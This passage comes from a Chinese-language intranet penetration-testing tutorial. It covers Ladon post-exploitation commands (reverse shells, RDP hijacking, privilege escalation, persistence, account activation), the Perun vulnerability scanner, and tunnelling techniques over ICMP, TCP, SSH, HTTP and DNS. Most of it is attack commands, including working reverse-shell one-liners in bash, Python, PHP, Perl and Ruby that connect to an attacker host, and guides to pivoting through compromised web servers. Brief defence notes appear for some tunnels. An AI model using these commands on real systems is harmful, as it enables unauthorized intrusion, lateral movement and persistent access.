Ladon ReverseTcp 192.168.1.8 4444 meter

##反弹HTTP MSF MET Shell
Ladon ReverseHttp 192.168.1.8 4444

##反弹HTTPS MSF MET Shell
Ladon ReverseHttps 192.168.1.8 4444

##反弹TCP CMD & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd Ladon PowerCat 192.168.1.8 4444 psh

##反弹UDP Cmd & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd udp Ladon PowerCat 192.168.1.8 4444 psh udp

##RDP桌面会话劫持（无需密码）
Ladon RDPHijack 3 Ladon RDPHijack 3 console

##OXID定位多网卡主机
Ladon 192.168.1.8/24 EthScan Ladon 192.168.1.8/24 OxidScan

##查看用户最近访问文件
Ladon Recent

##添加注册表Run启动项
Ladon RegAuto Test c:\123.exe

##AT计划执行程序(无需时间)(system权限)
Ladon at c:\123.exe Ladon at c:\123.exe gui

##SC服务加启动项&执行程序(system权限）
Ladon sc c:\123.exe Ladon sc c:\123.exe gui Ladon sc c:\123.exe auto ServerName

##MS16135提权至SYSTEM
Ladon ms16135 whoami

##BadPotato服务用户提权至SYSTEM
Ladon BadPotato cmdline

##SweetPotato服务用户提权至SYSTEM
Ladon SweetPotato cmdline

##whoami查看当前用户权限以及特权
Ladon whoami

##Open3389一键开启3389
Ladon Open3389

##RdpLog查看3389连接记录
Ladon RdpLog

##QueryAdmin查看管理员用户
Ladon QueryAdmin

##激活内置管理员Administrator
Ladon ActiveAdmin

##激活内置用户Guest
Ladon ActiveGuest

##查看本机命名管道
Ladon GetPipe

##39端口Netbios协议Windows密码爆破
Ladon 192.168.1.8/24 NbtScan
```

#### Perun

​	Perun是一款主要适用于乙方安服、渗透测试人员和甲方RedTeam红队人员的网络资产漏洞扫描器/扫描框架，它主要适用于内网环境，加载漏洞检测Vuln模块后能够快速发现安全问题，并根据需要生成报表，以方便安全人员对授权项目完成测试工作。

下载地址：https://github.com/WyAtu/Perun 

**Perun工作流程如下：**

* 加载-l参数指定路径下的项目代码
* 解析-t参数指定的目标
* 进行ping扫描活跃主机(使用–skip-ping参数将跳过ping扫描阶段)
* 根据默认扫描端口或-p参数对指定端口进行端口扫描，默认扫描178个端口，详见Perun/conf/globallistconf.py
* 解析–vuln和–search(包括–filter和–exclude)参数指定的漏洞检测Vuln模块
* 根据各Vuln模块默认扫描端口或–set-port指定各Vuln模块扫描端口，匹配目标主机开放端口，生成待扫描目标列表
* 加载各漏洞扫描Vuln模块Payload，进行漏洞扫描
* 生成报告(使用–skip-report参数将跳过生成报告)

**全端口扫描命令**

```
python Perun.py -l . -t 192.168.23.130  -p 1-65535 --skip-ping
```



**全端口扫描并加载全部vuln模块检测**

```
python Perun.py -l . -t 192.168.23.130 -p 1-65535 --skip-ping --search innet
```



**本地加载扫描`192.168.23.130的默认端口，并检测是否存在`javarmi.javarmi_rce`和`weblogic.rce_cve201710271`漏洞，其中`javarmi.javarmi_rce`模块扫描该Vuln模块默认端口，`weblogic.rce_cve201710271`扫描`80、90、8000-9000`端口**

```
sudo python Perun.py -l . -t 192.168.23.0/24 --skip-ping --vuln javarmi.javarmi_rce weblogic.rce_cve201710271=80,90,8000-9000
```



**更多使用方法：**

```
##本地加载同目录下项目文件, 扫描192.168.0.1/24、192.168.1.10-192.168.1.30、https://www.google.com、192.168.2.100的默认端口
Perun -l . -t 192.168.0.1/24 192.168.1.10-192.168.1.30 https://www.google.com 192.168.2.100

##远程加载http://Perun.comWeb上的项目文件，扫描192.168.0.0/24的80、443、8000-9000、81-90端口
Perun -l http://Perun.com -t 192.168.0.0/24 -p 80 443 8000-9000 81-90

##本地加载扫描192.168.0.0/24的默认端口，并检测是否存在javarmi.javarmi_rce和weblogic.rce_cve201710271漏洞，其中javarmi.javarmi_rce模块扫描该Vuln模块默认端口，weblogic.rce_cve201710271扫描80、90、8000-9000端口
Perun -l . -t 192.168.0.0/24 --vuln javarmi.javarmi_rce weblogic.rce_cve201710271=80,90,8000-9000

##本地加载并列出所有支持Vuln模块
Perun -l . --all-list

##本地加载并指定关键词为smb/rce进行搜索，并列出搜索结果，不进行扫描，Perun将列出所有关键词为smb和rce的Vuln模块和Vuln模块信息
Perun -l . --search smb rce --search-list
Perun -l . -t 192.168.0.0/24 --search smb rce --search-list

##本地加载并指定关键词为innet/rce进行搜索，从搜索结果中筛选出所有dangers关键词Vuln模块，不进行扫描，Perun将列出所有同时具有innet&dangers、rce&dangers的Vuln模块和Vuln模块信息
Perun -l . --search innet rce --filter rce --search-list

##本地加载并针对target.txt文件内的目标，忽略ping扫描和Html报告生成操作，进行默认端口扫描，然后加载所有内网Vuln模块(关键词为innet)进行扫描，所有Vuln模块仅扫描各模块默认端口
Perun -l . -t target.txt --search innet --skip-ping --skip-report

##本地加载，指定选择Vuln模块nexus_repository.nexus_weakpwd，搜索所有innet关键词Vuln模块，从选择和搜索的结果中排除Vuln模块tomcat.tomcat_put和zabbix.zabbix_weakpwd，列出已选择的Vuln模块(包括vuln指定/search搜索/filter筛选/exclude排除操作后的结果)和Vuln模块信息，不进行扫描
Perun -l . -t 192.168.0.0/24 --vuln nexus_repository.nexus_weakpwd --search innet --exclude tomcat.tomcat_put zabbix.zabbix_weakpwd --selected-vuln

##本地加载扫描192.168.0.0/24的默认端口，加载所有关键词有rce的Vuln模块，各Vuln模块不扫描其默认端口，改为扫描80、1000-8000端口，其中需要访问Web服务的Vuln模块设置Web路径为http://target.com/wwwtest/
Perun -l . -t 192.168.0.0/24 --search rce --set-port 80,1000-8000 --add-web-path wwwtest

##本地加载扫描192.168.0.0/24的默认端口，加载MySQL的弱口令扫描Vuln模块，针对该模块默认端口(3306)进行弱口令扫描，弃用该模块内置精简密码字典，改为使用password.txt密码字典进行爆破，不生成报告
Perun -l . -t 192.168.0.0/24 --search mysql --filter weakpassword --pass-path password.txt --skip-report
```

参考文章：

https://github.com/WyAtu/Perun/blob/master/doc/how2start.md#%E4%BD%BF%E7%94%A8%E4%B8%BE%E4%BE%8B


## 三、隐藏通道隧道技术

### 判断内网的联通性

```
	判断内网的联通性是指机器是否能上外网等。要综合判断各种协议（TCP、HTTP、DNS、ICMP等）及端口通信的情况。常见的允许流量流出的端口有80、8080、443、53、110、123等	
```

#### ICMP协议

```
ping <IP地址> //通过ICMP协议，判断流量是否拦截
```

#### TCP协议

```
nc <IP地址> <端口号>   //通过TCP协议连接，判断流量是否被拦截
```

#### HTTP协议

```
curl <IP地址> <端口号>   //通过HTTP协议请求，判断流量是否被拦截
```

#### DNS协议

```
nslookup www.baidu.com vps-ip 
dig @vps-ip www.baidu.com
```


### 网络层隧道

#### IPV6隧道

```
	IPv6 隧道技术是指通过 IPv4 隧道传送IPv6 数据包文的技术。为了在 IPv4 海洋中传递 IPv6 信息，可以将 IPv4 作为隧道载体，将 IPv6 报文整体封装在 IPv4 数据报文中，使用 IPv6 报文能够穿过 IPv4 海洋，到达另一个IPv6 小岛。
	将 IPv6封装在IPv4中的过程与其他协议封装相似：隧道一端的节点把IPv6数据报作为要发送给隧道另一端节点的IPv4包中的净荷数据，这样就产生了包含IPv6数据报的IPv4数据报流。如果节点A和节点B都是只支持IPv6的节点，节点A要向B发送包，A只是简单地把IPv6头的目的地址设为B的IPv6地址，然后传递给路由器X；X对IPv6包用IPv4进行封装，然后将IPv4头的目的地址设为路由器Y的IPv4地址；若路由器Y收到此IPv4包，则首先拆包，如果发现被封装的IPv6包是发给节点B的，Y就将此包正确地转发给B。
	因为现阶段的边界设备、防火墙甚至入侵防御系统 还无法识别 IPv6 的通信数据，而大多数的操作系统支持 IPv6 ，所以需要进行人工配置。攻击者有时会通过恶意软件来配置允许进行 IPv6 通信的设备，以避开防火墙和入侵检测系统。
	支持 IPv6 的隧道工具有 socat、6tunnel、nt6tunnel 等。
```

##### 防御IPV6隧道的攻击方法

* 针对IPv6隧道攻击，最好的防御方法是：了解IPv6的具体漏洞，结合其他协议，通过防火墙和深度防御系统过滤IPv6通信，提高主机和应用程序的安全性


#### **ICMP隧道**

```
	在一些网络环境中，如果攻击者使用各类上层隧道（例如HTTP隧道、DNS隧道、常规正/反向端口转发等）进行的操作都失败了，常常会通过ping命令访问远程计算机，尝试建立ICMP隧道，将TCP/UDP数据封装到ICMP的ping数据包中，从而穿透防火墙（通常防火墙不会屏蔽ping数据包），实现不受限制的网络访问。
常用的ICMP隧道工具有icmpsh、PingTunnel、icmptunnel、powershell icmp等。
```

##### icmpsh

```
	icmpsh是一个简单的反向 ICMP shell。与其他类似的开源工具相比，它的主要优势在于它不需要管理权限即可在目标机器上运行。
```

下载链接：https://github.com/bdamele/icmpsh

**实验环境：**

VPS主机：192.168.23.132

目标主机：192.168.23.133

**实验操作：**

VPS主机：

```
git clone https://github.com/inquisb/icmpsh.git   //克隆icmpsh到本地
apt-get install python-impacket   //安装impacket库
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all   //需要关闭ICMP应答，否则shell运行会不稳定
python icmpsh_m.py 192.168.23.132 192.168.23.133   //运行icmpsh
```



目标主机：

需要提前将icmpsh.exe上传到目标主机上

```
icmpsh.exe -t 192.168.23.132 -d 500 -b 30 -s 128   //在目标主机上运行该命令
```



成功反弹Shell到VPS主机上




##### PingTunnel

```
	pingtunnel 是把 tcp/udp/sock5 流量伪装成 icmp 流量进行转发的工具
```

下载地址：https://github.com/esrrhs/pingtunnel/releases

**实验环境：**

​	如下图所示，测试环境为：攻击者(Kali Linux);一个小型局域网；三台服务器，其中Windows Server 2008数据库服务器进行了策略限制。Web服务器无法直接访问Windoiws 2008数据库服务器，但可以通过ping命令访问Windows Server 2008数据库服务器。

**要求：通过Web服务器访问IP为10.48.128.130的Windows Server 2008数据库服务器的3389端口**



**1、下载PingTunnel上传到Web服务器上，然后运行PingTunnel，开启服务端隧道**

```
sudo ./pingtunnel -type server
```



**2、在VPS上运行pingtunnel连接到Web服务器的服务端隧道上，然后将VPS的9999端口转发到10.48.128.130数据库服务器的3389端口上**

```
sudo ./pingtunnel -type client -l :9999 -s 192.168.23.132 -t  10.48.128.130:3389 -tcp 1
```



```
sudo ./pingtunnel -type client -l :9999 -s 192.168.23.132 -t  10.48.128.130:3389 -tcp 1
```



**3、最后，在本地访问VPS的9999端口，可以发现，已经与数据库服务器10.48.128.130的3389端口建立了连接**


**PingTunnel其他用法：**

**转发 sock5**

```
pingtunnel.exe -type client -l :4455 -s 192.168.23.132 -sock5 1
```

**转发 tcp**

```
pingtunnel.exe -type client -l :4455 -s 192.168.23.132 -t 10.48.128.130:3389 -tcp 1
```

**转发 udp**

```
pingtunnel.exe -type client -l :4455 -s 192.168.23.132 -t 10.48.128.130:3389
```


##### 防御ICMP隧道攻击的方法

检测同一来源的ICMP数据包的数量，一个正常的ping命令每秒最多发送两个数据包，而是要ICMP隧道的浏览器会在很短的时间内产生上千个ICMP数据包
注意那些Payload大于64bit的ICMP数据包
寻找响应数据包中的Payload与请求数据包中的Payload不一致的ICMP数据包
检查ICMP数据包的协议标签。例如，icmptunnel会在所有的ICMP Payload前面添加“TUNL"标记来标识隧道


### 传输层隧道

```
	传输层技术包括TCP隧道、UDP隧道和常规的端口转发等。常见的代理工具有lcx、netcat、powercat等。
```

#### lcx端口转发

```
	lcx是一个基于socket套接字实现的端口转发工具，有Windows和Linux两个版本，Windows版本为lcx.exe，Linux版本为portmap。一个正常的socket隧道必须具备两端：一端为服务端，监听一个端口，等待客户端的连接；另一端为客户端，通过传入服务端的IP地址和端口，才能主动与服务器连接。
```

**实验拓扑图：**



##### 内网端口转发

**1、在OA服务器上执行如下命令，将3389端口的所有数据转发到Web服务器的4444端口上**

```
lcx.exe -slave 10.48.128.128 4444 127.0.0.1 3389  //Windows主机用lcx
```



**2、在Web服务器上执行如下命令，将本机端口4444端口上监听的所有数据转发本机的5555端口上**

```
./portmap -m 2 -p1 4444 -p2 5555	//Linux使用portmap
```



**3、VPS连接到Web服务器的5555端口，流量成功转发到OA服务器的3389端口**




##### 本地端口映射

如果OA服务器由于防火墙的限制，部分端口（例如3389）的数据无法通过防火墙，可以将目标服务器相应端口的数据透传到防火墙允许的其他端口(例如53)。在目标主机上执行如下命令，就可以直接从远程桌面连接目标的53端口

**1、将OA服务器本机的3389端口的全部数据透传到53端口上**

```
lcx.exe -tran 53 127.0.0.1 3389
```



**2、在Web服务器上执行如下命令，将OA服务器上的53端口全部数据转发到本机6666端口上**

```
./portmap -m 1 -p1 5555 -h2 10.48.128.130 53
```



**3、VPS连接到Web服务器的6666端口，流量成功转发到OA服务器的3389端口**




#### netcat

```
	之所以叫做netcat,是因为它是网络中的cat。cat的功能是读取一个文件的内容并输出到屏幕上，natcat也是如此——从网络的一端读取数据，输出到网络的另一端（可以使用TCP和UDP协议）
```

##### 简易使用

 **1、Banner抓取**

```
nc -nv 192.168.23.132 22
```



**2、连接远程主机**

```
nc -nvv 192.168.23.132 80
```



**3、端口扫描**

```
 nc -v -z 192.168.23.132 1-500
```



**4、端口监听**

执行如下命令，监听本地端口。当访问该端口时会输出信息到命令行

```
nc -lp 9999
```




##### 获取Shell

```
	Shell分为两种，一种是正向Shell，另一种是反向Shell。如果客户端连接服务器，客户端要获取服务器的Shell，就称为正向Shell；如果客户端连接服务器，服务器想要获取客户端的Shell，就称为反向Shell。
	反向Shell通常用在开启了防护措施的目标机器上，例如防火墙过滤、端口转发等。
```

**实验拓扑图：**



###### 正向Shell

**1、在Web服务器上输入如下命令，监听本地5555端口**

```
mknod /tmp/backpipe p ; /bin/sh 0< /tmp/backpipe | nc -lvp  5555 1>/tmp/backpipe
```



**2、在VPS主机上连接Web服务器的5555端口，成功连接Shell**

```
nc -vv 192.168.23.132 5555
```




###### **反向Shell**

**1、在VPS上输入如下命令，监听9999端口**

```
nc -lvp 9999
```



**2、在Web主机上输入如下命令，连接VPS主机的9999端口**

```
mknod /tmp/backpipe p ; /bin/sh 0< /tmp/backpipe | nc 192.168.23.1 9999 1>/tmp/backpipe
```



**3、回到VPS上主机查看，可以看到成功反弹Shell了**




##### 在目标主机中没有nc时获取反向Shell

**实验拓扑图：**


###### **Python反弹shell**

**VPS主机运行：**

```
nc -lvp 5555
```

**Web服务器运行：**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.23.1",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

**成功反弹Shell**




###### **BASH反弹Shell**

**VPS主机运行：**

```
nc -lvp 5555
```

**Web服务器运行：**

```
bash -i >& /dev/tcp/192.168.23.1/5555 0>&1
```

**成功反弹Shell**




###### **PHP反向Shell**

**VPS主机运行：**

```
nc -lvp 5555
```

**目标主机运行：**

```
php -r '$sock=fsockopen("192.168.23.1",5555);exec("/bin/bash -i <&3 >&3 2>&3");'
```

**成功反弹Shell**




###### **Perl反向Shell**

**VPS主机运行：**

```
nc -lvp 5555
```

**Web服务器运行：**

```
perl -e 'use Socket;$i="192.168.23.1";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**成功反弹Shell**




###### **Ruby反弹Shell**

**VPS主机运行：**

```
nc -lvp 5555
```

###### **Web服务器运行**

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.23.1","5555");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

**成功反弹Shell**




##### 内网代理

**实验拓扑图：**



**实验环境：攻击者VPS（Kali Linux）;一个小型内网：两台服务器。假设已经获取到了Web服务器的权限，通过VPS机器不能访问OA服务器(WIndows 2008)，但是Web服务器可以访问OA服务器(Linux)。测试目标为：获取OA服务器(Windows 2008)的Shell**

**1、在VPS主机上监听5555端口**

```
nc -lvp 5555
```



**2、在OA服务器上执行如下命令**

```
nc 10.48.128.130 3333 0</tmp/backpipe | nc 192.168.23.1 5555 | tee /tmp/backpipe
```



**3、在Web服务器下执行如下命令**

```
##下面命令适用于nc没有-c选项，如果有-c选项直接执行nc -v 192.168.23.1 5555 -c "nc -v 10.48.128.130 3333"即可
nc 192.168.23.1 5555 0</tmp/backpipe | nc 10.48.128.130 3333 | tee /tmp/backpipe 
```



**回到VPS主机中，可以看到，已经和OA服务器建立了连接**




#### PowerCat

```
	PowerCat可以说是nc的Powershell版本。PowerCat可以通过执行命令回到本地运行，也可以远程权限执行。
```

**下载连接：https://github.com/besimorhino/powercat**

**实验拓扑图：**


* Web服务器和OA服务器之间网络可达
* Web服务器和VPS主机之间网络可达
* VPS主机和OA服务器之间网络不可达

##### 通过nc正向连接PowerCat

**1、上传PowerCat.ps1脚本到Web服务器上，然后在Web服务器上打开powershell导入PowerCat.ps1脚本，导入成功后执行监听命令****

```
Import-Module .\powercat.ps1
powercat -l -p 8080 -e cmd.exe -v
```



**2、在VPS主机上执行如下命令连接shell**

```
nc 192.168.23.130 8080 -vv
```




##### **通过nc反向连接PowerCat**

**1、在Kali Linux上运行nc监听8888端口**

```
nc -lvp 8888
```



**2、在Web服务器上执行如下命令，反弹cmd.exe到VPS主机8888端口上**

```
powercat -c 192.168.23.1 -p 8888 -v -e cmd.exe
```



**3、回到VPS主机上，成功获取到Shell**




##### **通过PowerCat反弹PowerShell**

**将OA服务器的Powershell反弹到Web服务器上**

**1、在Web服务器上监听9999端口**

```
PowerCat -l -p 9999 -v
```



**2、上传PowerCat.ps1脚本到OA服务器上，导入模块后执行如下命令，-ep参数用于反弹Powershell**

```
import-module .\powercat.ps1
powercat -c 10.48.128.131 -p 9999 -v -ep
```



3、回到Web服务器上，可以看到，已经成功反弹Powershell了




##### **通过PowerCat传输文件**

**在Web服务器中新建一个test.txt文件，将其放到C盘根目录下、在OA服务器中执行如下命令**

```
powercat -l -p 9999 -of test.txt -v
```

**回到Web服务器中，执行如下命令**

```
powercat -c 10.48.128.130 -p 9999 -i c:\test.exe -v
```



**在OA服务器上查看test.txt文件是否传输成功**

```
Get-Content .\test
```




##### **通过PowerCat生成Payload**

**1、用Powercat生成的Payload也有正向和反向之分，且可以对其进行编码。尝试生成一个简单的Payload，在Web服务器上执行如下命令**

```
powercat -l -p 8000 -e cmd -v -ge >> shell.ps1
```



**2、将生成的shell.ps1文件上传到OA服务器上执行，然后在Windows 7中执行如下命令，就可以获取到一个反弹shell**

````
powercat -c 10.48.128.130 -p 8000 -v
````




##### **PowerCat Dns隧道通信**

**1、在VPS主机上执行如下命令安装dnscat2**

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
```

**2、在VPS主机上执行如下命令**

```
ruby dnscat2.rb ttpowercat.test -e open --no-cache
```



**3、执行以上命令后，返回Web服务器上，执行如下命令，就可以看到dnscat上的反弹Shell了**

```
powercat -c 192.168.23.1 -p 53 -dns ttpowercat.test -e cmd.exe
```



**4、回到VPS上输入session -i 1命令就可以执行命令了**

```
session -i 1
```




**将PowerCat作为跳板**

**1、在Web服务器中执行以下命令**

```
powercat -l -p 8000 -r dns:192.168.23.1::ttpowercat.test
```



**2、在VPS主机上执行如下命令，启动dnscat**

```
ruby dnscat2.rb ttpowercat.test -e open --no-cache
```



**3、在OA服务器上执行如下命令**

```
powercat -c 10.48.128.131 -p 8000 -v -e cmd.exe
```



**4、回到VPS上就可以看到了反弹Shell了**




### 应用层隧道

```
	在内网中建立一个稳定、可靠的数据通道，对渗透测试工作来说具有重要的意义。应用层的隧道通信技术主要利用应用软件提供的端口来发送数据。常用的隧道协议有SSH、HTTP/HTTPS和DNS。
```


#### SSH协议

```
	在内网中，几乎所有的Linux/Unix服务器和网络设备都支持SSH协议。在一般情况下，SSH协议是被允许通过我们防火墙和边界设备的，所有通常被攻击者利用。同时，SSH协议是被允许通过防火墙和边界设备的，所以经常被攻击者利用。同时，ssh协议的传输过程是加密的，所有我们很难区分合法的SSH会话和攻击者利用其他网络建立的隧道。攻击者利用SSH端口隧道突破防火墙的限制后，能够建立一些之前无法建立的TCP连接。
```


**一个普通的SSH命令如下：**

```
ssh root@192.168.1.1
```

ssh协议常见参数说明：
-C 压缩传输，提高传输速度
-f 将SSH传输转入后台执行，不占用当前Shell
-N 建⽴ 静默连接
-g 允许远程主机连接本地用于转发的端口 
-L 本地端口转发
-R 远程端口转发
-D 动态转发（Socks代理）
-P 指定SSH端口

##### 本地转发 

实验环境：左侧为攻击者VPS(Kali Linux)；右侧是一个小型内网，包含二台服务器；外部VPS可以访问内网Web服务器，但不能访问OA服务器；内网Web服务器和OA服务器可以相互访问。

**实验目标：以Web服务器为跳板，访问数据库服务器的3389端口**



**思路：以Web服务器192.168.23.132，将OA服务器10.48.128.130的3389端口映射到VPS机器192.168.23.1的1153端口，再访问VPS的1153端口，就可以访问10.48.128.130的3389端口了**


**1、在VPS上执行如下命令，会要求输入Web服务器(跳板机)的密码**

```
ssh -CNfg -L 1153:10.48.128.130:3389 root@192.168.23.132
```



**2、在本地系统访问VPS的1153端口。发现已经与OA服务器10.48.128.130的3389端口建立了连接**

```
rdesktop 127.0.0.1:1153   //Linux系统用redkstop，windows系统用matsc
```






##### 远程转发

**实验环境**：左侧为攻击者VPS(Kali Linux)；右侧是一个小型内网，包含两台服务器；内网没有边界设备，所有外部VP不能访问内内网中的两台机器；内网Web服务器可以访问外网VPS；OA服务器10.48.128.130)和不能访问外网VPS。

**实验目标：通过外网VPS访问OA服务器的3389端口**



**思路：以Web服务器为跳板，将VPS的3307端口的流量转发到10.48.128.130的3389端口，然后访问VPS的3307端口，就可以访问10.48.128.130的3389端口了**

**1、在Web服务器119.91.82.192执行如下命令**

```16
 ssh -CfNg -R 3307:10.48.128.130:3389 root@192.168.23.1
```



**2、在本地系统访问VPS的3307端口。发现已经与OA服务器10.48.128.130的3389端口建立了连接**

```
rdesktop 127.0.0.1:3307   //Linux系统用redkstop，windows系统用matsc
```




##### 动态转发

**实验拓扑图：**

****

**实验目标：通过Web服务器为跳板，访问内网中的OA服务器。**

**1、在VPS上执行如下命令，建立一个动态的SOCKS4/5代理通道，需要输入Web服务器的密码**

```
ssh -CfNg -D 7000 root@192.168.23.132
```



**2、在VPS上执行如下命令，查看本地7000端口是否已经连接。可以看到，在使用动态映射时，本地主机的SSH进程正在监听7000端口**

```
netstat -pantu | grep ":7000"
```



动态端口映射就是建立一个SSH的加密的SOCKS4/5代理通道。任何支持Socks4/5协议的程序都可以使用这个加密通道进行代理访问

**3、本地打开浏览器，设置网络代理**



**4、访问数据库服务器10.48.128.130上的OA系统**


##### 防御SSH隧道攻击的思路

* ssh隧道之所以能被攻击者利用，主要是因为系统访问控制措施不够。在系统中配置ssh远程管理白名单，在ACL中限制只有特定的ip地址才能连接ssh，以及设置系统完全使用带外管理等方法，都可以避免这一问题。如果没有足够的资源来建立带外管理的网络结构，在内网中至少要限制ssh远程登录的地址和双向访问控制策略（从外部到内部、从内部到外部）。


#### HTTP/HTTPS协议

```
	HTTP Service代理用于所有的流量转发到内网。常见的代理工具有reGeorg、tunna、Pystinger、Neo-reGeorg等。
	HTTP隧道的应用场景：icmp、dns、tcp和udp协议等都不能出网，唯一的数据通道是webshell搭建正向代理。
```

##### reGeorg

```
	Regeorg是reDuh的升级版，主要功能是把内网服务器的端口通过HTTP/HTTPS隧道转发到本机，形成一个回路。
	Regeorg可以使目标服务器在内网中（或者在设置了端口策略的情况下）连接内网开放端口。Regeorg利用WebShell建立一个SOCKS代理进行内网穿透，服务器必须支持ASPX、PHP、JSP中的一种
```

**下载连接：https://github.com/sensepost/reGeorg**

**实验环境:**

***VPS(Kali)：192.168.23.1**

**Web服务器(Ubuntu)：192.168.23.132，10.48.128.128**

**OA系统(Windows2008)：10.48.128.130**



假设已经获取到了Web服务器的控制权限，但无法直接访问内网中的OA服务器。Web服务器配置了两块网卡，一块连接外网，另一块(10.48.128.128)连接内网中的OA服务器。OA服务器可以处于内网中，无法访问外网。

**实验目标：以Web服务器为跳板，访问内网中的OA服务器**

**1、将脚本上传到Web服务器上，由于Web服务器上运行的是LAMP环境，所以我们上传tunnel.nosocket.php（php这里分为有socket与无socket的，tunnel.php需要使用dl()函数加载socket模块），访问显示“Georg says, 'All seems fine'”，表示脚本运行正常。**



**2、VPS上使用1080端口建立socks连接：**

```
python reGeorgSocksProxy.py -p 1080 -u http://192.168.23.132/tunnel.nosocket.php
```



**3、连接成功后，在VPS主机上的浏览器配置好socks5代理**



**4、成功访问到内网OA服务器**


##### tunna

```
	Tunna是一款神奇的工具，它可以通过HTTP封装隧道通信任何TCP，以及用于绕过防火墙环境中的网络限制。
```

github项目地址：https://github.com/SECFORCE/Tunna

**实验环境**

**VPS(Kali)：192.168.23.1**

**Web服务器(Ubuntu)：192.168.23.132，10.48.128.128**

**OA服务器(Windows2008)：10.48.128.130**



假设已经获取到了Web服务器的控制权限，但无法直接访问内网中的文件服务器。Web服务器配置了两块网卡，一块连接外网，另一块(10.48.128.128)连接内网中的OA服务器。OA服务器处于内网中，无法访问外网。

**实验目标：以Web服务器为跳板，访问内网中的OA服务器**

**1、将脚本上传到Web服务器上，由于Web主机上运行的是LAMP环境，所以我们上传conn.php**



**2、VPS上使用8000端口建立socks连接**

```
python2 proxy.py -u http://192.168.23.132/conn.php -l 8000
```



**3、连接成功后，在VPS主机上的浏览器配置好socks4代理**



**4、成功访问到内网OA服务器**


##### pystinger

```
	pystinger是通过webshell来实现内网的SOCK4代理。
	使用python开发，当前支持php，jsp(x)，aspx三种代理脚本。可直接用于metasploit，cobalt strike上线。
```

github项目地址：https://github.com/FunnyWolf/pystinger

**实验环境**

**VPS(Kali)：192.168.23.1**

**Web服务器(Ubuntu)：192.168.23.132，10.48.128.128**

**OA服务器(Windows2008)：10.48.128.130**



假设已经获取到了Web服务器的控制权限，但无法直接访问内网中的OA服务器。Web服务器配置了两块网卡，一块连接外网，另一块(10.48.128.128)连接内网中的OA服务器。OA服务器可以处于内网中，无法访问外网。

**实验目标：以Web服务器为跳板，访问内网中的OA服务器**

**1、上传proxy.php到Web服务器上，确保可以正常访问。**



**2、再将stinger_server上传到Web服务器，运行如下命令运行服务端**

```
./stinger_server 0.0.0.0
```



**3、在VPS上使用60000端口建立socks连接**

```
./stinger_client -w http://192.168.23.132/proxy.php -l 0.0.0.0 -p 60000
```



**4、连接成功后，在VPS主机上的浏览器配置好socks4代理**



**5、成功访问到内网OA服务器**



##### Neo-reGeorg(推荐)

```
	Neo-reGeorg是常见的http正向隧道工具，是reGeorg工具的升级版。增加了很多特性，例如像内容加密、避免被检测、请求头定制、响应码定制、支持py3等等	
```

**下载地址：https://github.com/L-codes/Neo-reGeorg**

**实验环境**

**VPS(Kali)：192.168.23.1**

**Web服务器(Ubuntu)：192.168.23.132，10.48.128.128**

**OA服务器(Windows2008)：10.48.128.130**



假设已经获取到了Web服务器的控制权限，但无法直接访问内网中的文件服务器。Web服务器配置了两块网卡，一块连接外网，另一块(10.48.128.128)连接内网中的OA服务器。OA服务器处于内网中，无法访问外网。

**实验目标：以Web服务器为跳板，访问内网中的OA服务器**

**1、生成webshell，密码为cmd**

```
python3 neoreg.py generate -k cmd
```



**2、由于Web服务器运行的是lamp环境，所以我们上传tunnel.php文件到Web主机上。然后使用浏览器访问没有报错即成功了**



**3、VPS上使用8000端口建立socks连接**

```
python3 neoreg.py -k cmd -u http://192.168.23.132/tunnel.php -p 8888
```



**4、连接成功后，在VPS主机上的浏览器配置好socks5代理(只支持socks5代理，不支持其他协议代理)**



**5、成功访问到内网OA服务器**


#### DNS协议

常用工具：

```
dnscat2
iodine
```


### **socks代理**

```
	Socks是一种代理服务，可以简单的将一端的系统连接另一端。SOCKS支持多协议，包括HTTP、FTP等。SOCKS分为SOCKS4和SOCKS5两种类型：SOCKS4只支持TCP协议;SOcks5不仅支持TCP/UDP协议，还支持各种身份验证机制等，其标准端口为1080。SOCKS能够与目标内网的计算机通信，避免多次使用端口转发。4
	Socks代理其实可理解为增强版的LCX。它在服务器监听一个服务端口，当有新的连接请求出现时，会先从SOCKS协议中解析出目标的URL的目标端口，再执行lcx的具体功能。SOCKS代理工具有很多，在使用时尽可能选择没有GUI界面的。此外，要尽量选择不需要安装其他依赖软件的SOCKS代理工具
```

**常见的网络场景有以下三类：**

* 服务器在内网中，可以任意访问外部网络
* 服务器在内网中，可以访问外部网络，但服务器安装了伪防火墙来拒绝敏感端口的连接
* 服务器在内网中，对外只开放了部分端口（例如80端口），且服务器不能访问外部网络

**常用的Socks代理工具：**

* EarthWorm

* vemon

* reGeorg

* chisel


#### EarthWorm

```
	EarthWorm是一套轻量便携且功能强大的网络穿透工具，基于标准C开发，具有socks5代理、端口转发和端口映射三大功能。相较于其他穿透工具，如reGeorg等， EarthWorm可以穿透更复杂的内网环境同时也不需要跳板机运行web服务，也可以支持多平台间的转接通讯，如Linux、Windows、MacOS、Arm-Linux等。
	该工具共有 6 种命令格式（ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran）。
```

下载地址：https://github.com/idlefire/ew

**实验环境：**

**攻击机(Kali)：192.168.23.1**

**A主机(Linux)：192.168.23.1，10.48.128.132**

**B主机(Windows2008)：10.48.128.130、10.25.23.128**

**C主机(Windows 2012)：10.25.23.129**



##### **正向代理**

**A主机：**

```
./ew_for_linux64 -s ssocksd -l 1080
```



**VPS主机：**

```
配置socks5代理连接到本机1080端口上
```


##### **反向代理**

**VPS：**

监听8888端口的数据转到1080端口上

```
./ew_for_linux64 -s rcsocks -l 1080 -e 8888 
```



**A主机：**

在A主机上上启动 SOCKS5服务并反弹到VPS主机的 8888端口

```
./ew_for_linux64 -s rssocks -d 192.168.23.1 -e 8888
```



**VPS主机：**

```
